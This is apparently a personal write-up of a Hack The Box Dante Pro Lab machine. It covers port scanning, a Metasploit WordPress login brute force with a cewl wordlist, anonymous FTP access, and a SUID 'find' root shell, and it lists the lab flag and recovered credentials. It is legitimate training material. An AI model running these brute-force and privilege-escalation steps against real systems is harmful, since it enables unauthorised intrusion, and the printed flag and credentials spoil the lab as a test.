


---
tags:
  - box
platform: HTB (Pro Lab - Dante)
os: Linux
difficulty:
date_completed:
mitre_attack: T1190, T1110, T1548.001
status: rooted
---

## Target

**IP Address:** 10.10.110.100

## Recon

### Port Scan

```bash
nmap -T5 -p- 10.10.110.100
```



```bash
sudo nmap -sV -sC -oA box1.tcp -v -p 21,22,65000 10.10.110.100
```



> FTP anonymous login is allowed
> Port 65000 is an HTTP port and has a disallowed entry in robots.txt: `/wordpress` & `DANTE{Y0u_Cant_G3t_at_m3_br0!}`

## Enumeration

### HTTP Port 65000


#### WordPress Site


```bash
cewl http://10.10.110.100:65000/wordpress/index.php/languages-and-frameworks > wordlist
```

```bash
msfconsole
use scanner/http/wordpress_login_enum
set rhosts 10.10.110.100
set rport 65000
set username james
set pass_file wordlist
set targeturi /wordpress
run
```

> `/wordpress` - WordPress Brute Force - SUCCESSFUL login for `james` : `Toyota`

### FTP Port

```bash
ftp anonymous@10.10.110.100
passive
dir
cd Transfer
dir
cd Incoming
dir
get todo.txt
```


## Exploitation

WordPress login brute-forced with a wordlist built from the site's own content (`cewl`), giving valid credentials for `james`.

## Privilege Escalation

SUID is set on the `find` binary.

```bash
find . -exec /bin/sh -p \; -quit
```

## Flags

**Root/System flag:** `rootKey`

## Creds Found

- `james:Toyota`
- `balthazar:TheJoker12345!`
- `root = rootKey`

## Lessons Learned

`cewl` against the target's own web content is a quick way to build a highly targeted wordlist for brute-forcing logins tied to that same site/organization, often more effective than a generic list like rockyou.txt. SUID on `find` is a classic GTFOBins privesc - always check `find . -exec /bin/sh -p \; -quit` when `find` shows up in an SUID listing.
